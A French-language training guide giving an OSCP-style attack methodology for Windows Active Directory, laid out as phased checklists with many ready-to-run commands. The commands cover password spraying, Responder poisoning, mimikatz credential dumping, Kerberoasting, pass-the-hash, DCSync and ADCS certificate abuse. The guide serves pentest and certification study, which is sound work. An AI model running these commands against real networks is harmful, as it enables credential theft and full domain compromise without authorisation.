

---
tags:
  - formation
  - security
  - windows
  - hacking
  - methodology
  - oscp
  - pentest
---

# Méthodologie OSCP-like - Windows AD

Guide méthodologique structuré pour l'exploitation Windows/AD, inspiré de l'approche OSCP. À utiliser comme checklist lors de vos pentests et examens.

---

## Vue d'Ensemble



---

## Phase 1 : Reconnaissance

### 1.1 Port Scanning

```bash
# Scan rapide - Top 1000 ports
nmap -sC -sV -oA nmap/initial $TARGET

# Scan complet tous ports
nmap -p- -sV -oA nmap/full $TARGET

# Scan UDP (ports critiques)
nmap -sU -p 53,88,123,161,389,500 -oA nmap/udp $TARGET

# Ports Windows/AD à surveiller
# 53    - DNS
# 88    - Kerberos
# 135   - RPC
# 139   - NetBIOS
# 389   - LDAP
# 445   - SMB
# 464   - Kpasswd
# 593   - RPC over HTTP
# 636   - LDAPS
# 3268  - Global Catalog
# 3269  - Global Catalog SSL
# 3389  - RDP
# 5985  - WinRM HTTP
# 5986  - WinRM HTTPS
```

### 1.2 Service Enumeration

**DNS (53) :**
```bash
# Zone transfer
dig axfr @$DC domain.local

# Reverse lookup
dnsrecon -d domain.local -n $DC -r $RANGE
```

**SMB (445) :**
```bash
# Null session
smbclient -N -L //$TARGET
crackmapexec smb $TARGET

# Avec credentials
crackmapexec smb $TARGET -u 'user' -p 'pass' --shares
smbmap -H $TARGET -u 'user' -p 'pass'

# Énumération fichiers
smbclient //$TARGET/share -U 'user'
```

**LDAP (389) :**
```bash
# Null bind
ldapsearch -x -H ldap://$DC -b "DC=domain,DC=local"

# Avec credentials
ldapsearch -x -H ldap://$DC -D "user@domain.local" -w 'pass' -b "DC=domain,DC=local"

# Extraire tous les utilisateurs
ldapsearch -x -H ldap://$DC -D "user@domain.local" -w 'pass' -b "DC=domain,DC=local" "(objectClass=user)" sAMAccountName
```

**Kerberos (88) :**
```bash
# User enumeration (sans auth)
kerbrute userenum -d domain.local --dc $DC users.txt
```

### 1.3 AD Discovery Checklist

- [ ] Identifier le Domain Controller
- [ ] Obtenir le nom de domaine
- [ ] Énumérer les utilisateurs (LDAP/Kerberos/RID)
- [ ] Lister les partages SMB accessibles
- [ ] Vérifier l'accès anonyme LDAP
- [ ] Tester AS-REP Roasting (sans auth)

---

## Phase 2 : Initial Access

### 2.1 Accès Anonyme

```bash
# SMB null session
enum4linux -a $TARGET

# LDAP anonymous
ldapsearch -x -H ldap://$DC -b "DC=domain,DC=local" "(objectClass=*)"

# RPC null session
rpcclient -U "" -N $TARGET
> enumdomusers
> enumdomgroups
```

### 2.2 Credential Attacks

**Password Spraying :**
```bash
# Avec Kerbrute (safe - Kerberos)
kerbrute passwordspray -d domain.local --dc $DC users.txt 'Password123'

# Avec CrackMapExec
crackmapexec smb $TARGET -u users.txt -p 'Password123' --continue-on-success
```

**AS-REP Roasting (sans credentials) :**
```bash
GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip $DC -format hashcat -outputfile asrep.txt
```

**LLMNR/NBT-NS Poisoning :**
```bash
sudo responder -I eth0 -dwv
# Attendre les hashes...
hashcat -m 5600 hash.txt wordlist.txt
```

### 2.3 Exploitation

**Avec premiers credentials :**
```bash
# Vérifier l'accès
crackmapexec smb $TARGET -u 'user' -p 'pass'
crackmapexec winrm $TARGET -u 'user' -p 'pass'

# Shell si WinRM
evil-winrm -i $TARGET -u 'user' -p 'pass'

# Sinon, tester PSExec
psexec.py domain.local/user:'pass'@$TARGET
```

### 2.4 Initial Access Checklist

- [ ] Tester password spray (mots de passe courants)
- [ ] Vérifier AS-REP Roasting
- [ ] Lancer Responder si réseau accessible
- [ ] Chercher des credentials dans les partages
- [ ] Tester les comptes par défaut (Administrator, guest)
- [ ] Vérifier les notes/fichiers pour des passwords

---

## Phase 3 : Post-Exploitation Locale

### 3.1 Énumération Système

```powershell
# Info système
systeminfo
hostname
whoami /all

# Utilisateurs et groupes
net user
net localgroup Administrators
query user

# Processus
tasklist /v
Get-Process

# Services
Get-Service | Where-Object {$_.Status -eq "Running"}
wmic service get name,pathname,startmode

# Tâches planifiées
schtasks /query /fo LIST /v

# Historique PowerShell
Get-History
(Get-PSReadLineOption).HistorySavePath
type C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

### 3.2 Credential Harvesting

```powershell
# Fichiers sensibles
dir /s /b *pass* *cred* *vnc* *.config 2>nul
findstr /si password *.txt *.ini *.config *.xml

# Registry
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s

# Credentials Manager
cmdkey /list
vaultcmd /listcreds:"Windows Credentials" /all

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile name="SSID" key=clear
```

**Avec Mimikatz :**
```powershell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets /export
lsadump::sam
vault::cred
```

### 3.3 Privilege Escalation Checks

```powershell
# Outils automatisés
.\winPEASx64.exe
.\Seatbelt.exe -group=all
Import-Module .\PowerUp.ps1; Invoke-AllChecks

# Checks manuels
# 1. Services modifiables
Get-ServiceUnquoted
Get-ModifiableService

# 2. AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# 3. Privileges
whoami /priv
# SeImpersonatePrivilege → Potato attacks
# SeBackupPrivilege → SAM dump
# SeRestorePrivilege → DLL hijacking
# SeDebugPrivilege → Process injection

# 4. Scheduled tasks modifiables
Get-ScheduledTask | Where-Object {$_.State -ne "Disabled"}
```

### 3.4 Privilege Escalation Techniques

**Potato (si SeImpersonatePrivilege) :**
```powershell
.\PrintSpoofer64.exe -i -c cmd
.\GodPotato.exe -cmd "cmd /c whoami"
```

**Service Exploitation :**
```powershell
# Unquoted path
sc qc "Vulnerable Service"
# Si path non quoté avec espace: C:\Program Files\Vuln Service\service.exe
# Créer: C:\Program.exe

# Weak permissions
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
sc config "service" binpath="C:\temp\shell.exe"
sc stop "service"
sc start "service"
```

### 3.5 Post-Exploitation Checklist

- [ ] `whoami /all` - Vérifier les privilèges
- [ ] Lancer WinPEAS/PowerUp
- [ ] Chercher des credentials dans les fichiers/registry
- [ ] Vérifier les tâches planifiées
- [ ] Tester les Potato attacks si applicable
- [ ] Extraire SAM/SYSTEM si backup privilege
- [ ] Vérifier les services vulnérables

---

## Phase 4 : Domain Compromise

### 4.1 AD Enumeration

```bash
# BloodHound collection
bloodhound-python -d domain.local -u user -p 'pass' -dc dc01.domain.local -c All

# Importer dans BloodHound et chercher:
# - Shortest path to Domain Admin
# - Kerberoastable users
# - AS-REP Roastable users
# - DCSync rights
```

```powershell
# PowerView
Import-Module .\PowerView.ps1
Get-DomainUser -SPN                      # Kerberoastable
Get-DomainUser -PreauthNotRequired       # AS-REP Roastable
Get-DomainComputer -Unconstrained        # Unconstrained Delegation
Find-InterestingDomainAcl                # Dangerous ACLs
```

### 4.2 Kerberos Attacks

```bash
# Kerberoasting
GetUserSPNs.py domain.local/user:'pass' -dc-ip $DC -request -outputfile kerberoast.txt
hashcat -m 13100 kerberoast.txt wordlist.txt

# AS-REP Roasting (avec credentials pour enum)
GetNPUsers.py domain.local/user:'pass' -dc-ip $DC -request

# Pass-the-Hash
psexec.py domain.local/admin@$TARGET -hashes :HASH
evil-winrm -i $TARGET -u admin -H HASH

# Pass-the-Ticket
export KRB5CCNAME=ticket.ccache
psexec.py domain.local/admin@$TARGET -k -no-pass
```

### 4.3 Lateral Movement

```bash
# Vérifier où l'utilisateur est admin
crackmapexec smb targets.txt -u user -p 'pass' --local-auth

# Mouvement
psexec.py domain.local/admin:'pass'@$NEWTARGET
wmiexec.py domain.local/admin:'pass'@$NEWTARGET
evil-winrm -i $NEWTARGET -u admin -p 'pass'
```

### 4.4 Domain Escalation

**DCSync (si droits suffisants) :**
```bash
secretsdump.py domain.local/admin:'pass'@$DC -just-dc
# Récupère tous les hashes dont krbtgt
```

**ADCS Exploitation :**
```bash
certipy find -u user@domain.local -p 'pass' -dc-ip $DC -vulnerable
certipy req -u user@domain.local -p 'pass' -ca 'CA-NAME' -target $CA -template 'Vuln' -upn Administrator@domain.local
certipy auth -pfx administrator.pfx -dc-ip $DC
```

**ACL Abuse :**
```powershell
# Si GenericAll sur un utilisateur
Set-DomainUserPassword -Identity targetuser -AccountPassword (ConvertTo-SecureString 'NewPass123!' -AsPlainText -Force)

# Si WriteDacl
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity attacker -Rights All
```

### 4.5 Domain Compromise Checklist

- [ ] Collecter BloodHound et analyser les paths
- [ ] Tester Kerberoasting sur tous les SPN
- [ ] Vérifier les ACLs dangereuses
- [ ] Tester ADCS si présent
- [ ] DCSync si possible
- [ ] Golden Ticket pour persistence

---

## Checklist Rapide par Port

### Port 445 (SMB)

```
□ smbclient -N -L //$IP
□ crackmapexec smb $IP
□ crackmapexec smb $IP -u '' -p ''
□ crackmapexec smb $IP -u 'guest' -p ''
□ enum4linux -a $IP
□ smbmap -H $IP -u null
```

### Port 389 (LDAP)

```
□ ldapsearch -x -H ldap://$IP -b "DC=domain,DC=local"
□ GetADUsers.py -all domain.local/ -dc-ip $IP
□ windapsearch.py -d domain.local --dc-ip $IP -U
```

### Port 88 (Kerberos)

```
□ kerbrute userenum --dc $IP -d domain.local users.txt
□ GetNPUsers.py domain.local/ -usersfile users.txt -dc-ip $IP
□ GetUserSPNs.py domain.local/user:pass -dc-ip $IP -request
```

### Port 5985 (WinRM)

```
□ crackmapexec winrm $IP -u user -p pass
□ evil-winrm -i $IP -u user -p pass
```

---

## Notes de Prise en Compte

### Template de Notes

```markdown
# Target: [IP/Hostname]

## Recon
- OS:
- Domain:
- Open Ports:

## Credentials Found
| Username | Password | Hash | Source |
|----------|----------|------|--------|
|          |          |      |        |

## Access
- [ ] User shell
- [ ] Admin/SYSTEM
- [ ] Domain User
- [ ] Domain Admin

## Attack Path
1.
2.
3.

## Flags/Proofs
- user.txt:
- root.txt:
- proof.txt:
```

### Tips Examen

!!! tip "Conseils OSCP"

    1. **Documenter tout** : Chaque commande, chaque output
    2. **Screenshots** : Prendre des captures à chaque étape clé
    3. **Énumérer d'abord** : Ne pas sauter aux exploits
    4. **Low-hanging fruit** : Commencer par le plus simple
    5. **Pas de rabbit holes** : Si bloqué 30min, passer à autre chose
    6. **Revenir en arrière** : Re-énumérer avec de nouveaux credentials
    7. **Preuves** : Toujours capturer les flags/hashes

### Erreurs Courantes

| Erreur | Solution |
|--------|----------|
| Oublier l'énumération UDP | Toujours scanner UDP 53,88,161 |
| Ne pas re-énumérer | Chaque nouveau credential = nouvelle énumération |
| Ignorer les fichiers | Lire tous les fichiers accessibles |
| Négliger l'historique | PowerShell, Bash history |
| Exploitation trop rapide | Comprendre avant d'exploiter |

---

## Commandes One-Liner

```bash
# Full port scan rapide
nmap -p- --min-rate=1000 -T4 $IP -oN ports.txt && nmap -p$(grep -oP '\d+/open' ports.txt | cut -d'/' -f1 | tr '\n' ',') -sCV $IP -oN services.txt

# Spray password
for user in $(cat users.txt); do crackmapexec smb $DC -u "$user" -p 'Password1' 2>/dev/null | grep '[+]'; done

# Extraire utilisateurs LDAP
ldapsearch -x -H ldap://$DC -b "DC=domain,DC=local" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 | tr -d ' ' > users.txt

# Kerberoast → crack one-liner
GetUserSPNs.py domain.local/user:'pass' -dc-ip $DC -request -outputfile kerb.txt && hashcat -m 13100 kerb.txt /usr/share/wordlists/rockyou.txt
```

---

[Retour au Programme](index.md){ .md-button }
[Labs Interactifs →](labs-interactifs.md){ .md-button .md-button--primary }
